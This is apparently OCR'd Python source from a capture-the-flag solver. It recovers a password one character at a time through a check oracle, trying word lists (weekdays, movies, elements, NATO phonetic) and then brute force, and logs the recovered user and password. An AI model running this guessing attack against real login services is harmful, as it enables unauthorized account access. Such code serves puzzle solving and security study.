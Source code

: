 ```python
        log.error(f"Brute forcing from: {password}")
        while True:
            for c in tqdm(ALPHABET):
                if self.check(password + c):
                    password += c
                    log.debug(f"Partial: {password}")
                    break
            else:
                raise NotFound("Brute")

    def guess_words(self, words, password: str = "", fallback=True):
        for word in words:
            test = password + word
            if self.check(test):
                return test
        else:
            if fallback:
                log.warn(f"Failed to use password from {words}")
                log.warn("Falling back to bruteforce")
                return self.brute_force(password)
            else:
                return None

    def guess_words_smart(self, words, password: str = ""):
        # Napkin maths says 4 is a good number
        if len(words) < 4:
            return self.guess_words(words, password)
        first_letters = Counter(word[0] for word in words).most_common()
        if first_letters[0][1] == 1:
            return self.guess_words(words, password)
        first_letters_s = [letter for letter, cnt in first_letters if cnt > 1]
        new_s = self.guess_words(first_letters_s, password, fallback=False)
        if new_s is None:
            new_words = [word for word in words if word[0] not in first_letters_s]
            assert len(new_words) > 0
            return self.guess_words_smart(new_words, password)
        words = [word[1:] for word in words if word[0] == new_s[-1]]
        return self.guess_words_smart(words, new_s)

    def solve(self):
        try:
            password = self.guess_words_smart(days)
            log.debug(f"Partial: {password!r}")
            password = self.guess_words_smart(movies, password)
            log.debug(f"Partial: {password!r}")
            password = self.guess_words_smart(elements, password)
            log.debug(f"Partial: {password!r}")
            password = self.guess_words_smart(nato_phonetic, password)
            log.debug(f"Partial: {password!r}")
            log.error("Something after phonetic alphabet, resorting to brute force")
            self.brute_force(password)
        except SuccessfulConnection:
            log.info("We're in!")
            out = self.r.recvuntil("remaining.\n", timeout=1)
            log.info(f"MSG: {out}")
            log.info(f"Guesses: {self.guesses}/6000 ({round(self.guesses / 60, 2)})")
            log.info(f"User: {self.user}")
            log.info(f"Password: {self.password}")
            return True, self.guesses, self.password, self.user
        # except Timeout:
        #     return False, self.guesses, self.password, self.user


```
